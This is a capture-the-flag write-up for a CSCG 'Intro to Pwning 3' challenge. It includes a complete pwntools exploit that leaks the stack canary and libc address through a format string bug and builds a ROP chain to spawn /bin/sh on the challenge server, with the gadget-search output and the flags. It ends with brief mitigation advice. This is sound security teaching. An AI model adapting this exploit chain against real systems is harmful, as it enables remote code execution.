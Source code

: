 # Intro to Pwning 3

## Solution

The difference here to the previous challenge is that we don't have a `WINgardium_leviosa` function that executes `/bin/sh` for us.
Therefore I used a technique called [ret2libc](https://www.youtube.com/watch?v=m17mV24TgwY) and a nice tool for finding [bespoke gadgets](https://www.youtube.com/watch?v=i_TUQfQS9Tg)
called [`one_gadget`](https://github.com/david942j/one_gadget). I additionally used [`ropper`](https://github.com/sashs/Ropper).
<br/> <br/>
I set up the [docker example by liveoverflow](https://github.com/LiveOverflow/pwn_docker_example) to get the correct version of libc, this is very important for our exploit to work on the server. Let's see where libc is loaded from:
```
$ ldd pwn3
    linux-vdso.so.1 (0x00007ffe8a693000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3753a58000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f3753e56000)
```
Now, run one_gadget on `/lib/x86_64-linux-gnu/libc.so.6`:
```
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe6b93 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6b96 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6b99 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x10afa9 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
Seems like we found multiple addresses we jumped to and I actually picked the gadget at `0xe6b99` instead of `0x10afa9`... Don't ask me why, I probably missed it.
The magic gadget at `0xe6b99` I picked had the constraints that `rsi` and `rdx` had to be `NULL`.
I then used ropper to search for `pop rsi`:
```
$ ropper -f /lib/x86_64-linux-gnu/libc.so.6 --search "pop rsi; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rsi; ret

[INFO] File: /lib/x86_64-linux-gnu/libc.so.6
0x000000000002709c: pop rsi; ret;
```
... and for `pop rdx`:
```
$ ropper -f /lib/x86_64-linux-gnu/libc.so.6 --search "pop rdx"
[LOAD] loading... 100%                                                                                                                                                                                             
[LOAD] removing double gadgets... 100%                                                                                                                                                                             
[INFO] Searching for gadgets: pop rdx                                                                                                                                                                              

[INFO] File: /lib/x86_64-linux-gnu/libc.so.6
...
0x000000000011c421: pop rdx; pop r12; ret;
...
```

All I had to do now was putting all of that together:
```python
#!/usr/bin/env python3

from pwn import *

format_string = "|".join(["%p" for _ in range(65)])

r = remote("hax1.allesctf.net", 9102)

r.sendline(b"CSCG{NOW_GET_VOLDEMORT}")

r.sendline(format_string)
leaks = r.recvuntil("enter your magic spell:").decode("utf-8").split("|")

stack = int(leaks[39], 16)
canary = int(leaks[38], 16)
in_libc = int(leaks[2], 16)

padding = b"A" * 251
libc = in_libc - 0x111317

pop_rsi = libc + 0x2709c    # pop rsi; ret;
pop_rdx = libc + 0x11c421  # pop rdx; pop r12; ret; 
execve_bin_sh = libc + 0xe6b99  # execve("/bin/sh", rsi, rdx)

print("-"*35)
log.info(f"canary cookie: {hex(canary)}")
log.info(f"libc: {hex(libc)}")
log.info(f"rbp: {hex(stack)}")  # set the rbp to the stack
log.info(f"pop_rsi: {hex(pop_rsi)}")
log.info(f"pop_rdx: {hex(pop_rdx)}")
log.info(f"execve_bin_sh: {hex(execve_bin_sh)}")
print("-"*35)

payload = b"Expelliarmus\x00"
payload += padding

payload += p64(canary)
payload += p64(stack)

payload += p64(pop_rsi)
payload += p64(0)

payload += p64(pop_rdx)
payload += p64(0)
payload += p64(0)

payload += p64(execve_bin_sh)

r.sendline(payload)

r.interactive()
```

Flag: `CSCG{VOLDEMORT_DID_NOTHING_WRONG}`

## Mitigation

Mitigate the format string vulnerability by replacing `printf(read_buf);` with `printf("%s", read_buf);"` and the buffer overflow by using a safe alternative to `gets` such as
`fgets` that only reads as much characters as specified and set it to something smaller than the buffer size.
